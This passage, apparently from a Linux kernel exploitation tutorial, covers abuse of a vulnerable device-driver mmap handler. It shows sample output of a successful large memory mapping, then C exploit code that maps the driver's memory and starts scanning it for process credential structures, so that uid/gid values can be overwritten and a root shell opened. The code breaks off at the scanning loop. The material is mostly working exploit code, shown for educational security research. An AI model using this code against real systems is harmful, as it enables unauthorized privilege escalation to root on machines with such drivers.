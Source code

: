 The following result demonstrates that the specific device driver supports
`mmap` operations:

```bash
# Current process PID
[+] PID: <PID>

[+] Trying devices: '/dev/<DRIVER_FILE>'
  [+] Open OK fd: x
  [+] mmap OK addr: 42424000

# Current process memory containing the mmaped memory at 42424000
cat /proc/<PID>/maps
[...]
42424000-132424000 rw-s 00000000 00:06 440
```

###### Exploitation of a vulnerable `mmap` handler device driver implementation

The following `C` code implements the exploitation process presented above and
open an `sh` interpreter in case of successful modification of the current
process `uids`/`gids`:

```c
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>

#define DRIVER "/dev/<DRIVER_FILE>"

int main(int argc, char * const * argv) {
  printf("[+] PID: %d\n", getpid());

  printf("[+] Exploiting driver: '%s' ", DRIVER);

  int fd = open(DRIVER, O_RDWR);
  if (fd < 0) {
    printf("[-] Open failed!\n");
    return -1;
  }
  printf("[+] Open OK fd: %d\n", fd);

  unsigned long size = 0xf0000000;
  unsigned long mmapStart = 0x42424000;
  unsigned int * addr = (unsigned int *)mmap((void*)mmapStart, size, PROT_READ
  | PROT_WRITE, MAP_SHARED, fd, 0x0);
  if (addr == MAP_FAILED) {
    perror("[-] Failed to mmap: ");
    close(fd);
    return -1;
  }

  printf("[+] mmap OK addr: %lx\n", addr);

  unsigned int uid = getuid();
  printf("[+] UID: %d\n", uid);

  unsigned int credIt = 0;
  unsigned int credNum = 0;
  while (((unsigned long)addr) < (mmapStart + size - 0x40))
  {
    credIt = 0;
```